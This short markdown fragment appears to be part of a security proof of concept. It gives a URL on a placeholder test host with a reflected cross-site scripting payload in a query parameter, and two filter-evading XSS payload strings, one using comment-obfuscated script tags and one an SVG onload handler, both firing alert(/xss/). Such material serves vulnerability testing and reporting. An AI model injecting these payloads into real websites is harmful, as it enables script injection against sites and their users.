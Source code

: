 **URL:**<br/>[http://test.com/pages/jobs.asp?did=123456"><\<script/**/>/*test*/alert(/xss/)/*123*/</script>](http://test.com/pages/jobs.asp?did=123456"><\<script/**/>/*test*/alert(/xss/)/*123*/</script>)

**Payload:**<br/>`"><\<script/**/>/*test*/alert(/xss/)/*123*/</script>`


**Payload:**<br/>`"/**/></*svg*/><svg/*test*/onload=alert(/xss/)/*111*/>`


